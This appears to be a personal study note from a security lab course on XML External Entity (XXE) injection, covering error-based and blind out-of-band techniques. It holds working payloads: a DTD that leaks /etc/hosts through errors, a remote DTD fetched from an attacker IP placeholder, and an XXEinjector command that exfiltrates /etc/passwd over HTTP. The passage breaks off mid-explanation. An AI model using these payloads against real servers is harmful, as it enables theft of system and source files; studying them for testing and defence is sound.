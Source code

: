 #### 2. Error Based XXE
If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.
let's try to send malformed XML data, and see if the web application displays any errors
just reference a non-existing entity, as follows:
![[Pasted image 20250510180231.png]]
#### RESPONSE:
 ![[Pasted image 20250510180250.png]]
 We see that we did indeed cause the web application to display an error,
	 it also revealed the web server directory `/var/www/html/error...`, which we can use to read the source code of other files.

1. host the following .dtd
   ```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
The above payload defines the `file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

2.  Now, we can call our external DTD script, and then reference the `error` entity, as follows:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
![[Pasted image 20250510180956.png]]

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.


# out of band XXE (blind)
use xxeinjector
```shell-session
$ ruby XXEinjector.rb --host=[attacker tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```


we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

---
we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:
